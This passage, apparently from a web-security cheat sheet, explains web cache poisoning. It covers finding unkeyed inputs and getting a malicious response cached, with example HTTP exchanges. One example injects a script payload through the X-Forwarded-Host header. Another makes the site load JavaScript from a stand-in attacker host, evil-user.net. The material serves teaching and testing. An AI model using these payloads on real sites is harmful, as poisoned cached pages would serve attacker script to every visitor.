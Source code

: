 2. **Elicit a harmful response from the back-end server**
   
   Once you have identified an unkeyed input, the next step is to evaluate exactly how the website processes it. Understanding this is essential to successfully eliciting a harmful response. If an input is reflected in the response from the server without being properly sanitized, or is used to dynamically generate other data, then this is a potential entry point for web cache poisoning.
<br>
3. **Get the response cached**:

   Whether or not a response gets cached can depend on all kinds of factors, such as the file extension, content type, route, status code, and response headers. You will probably need to devote some time to simply playing around with requests on different pages and studying how the cache behaves. Once you work out how to get a response cached that contains your malicious input, you are ready to deliver the exploit to potential victims.

# Web Cache Poisoning Attacks

## XSS attacks using web cache poisoning

Unkeyed input is reflected in a cacheable response without proper sanitization:
```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

The unkeyed input is used to deliver a [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md):
```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

All users who accessed `/en?region=uk` would be served this XSS payload

The same can happens if the server imports external resources using unkeyed headers:
```http
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```
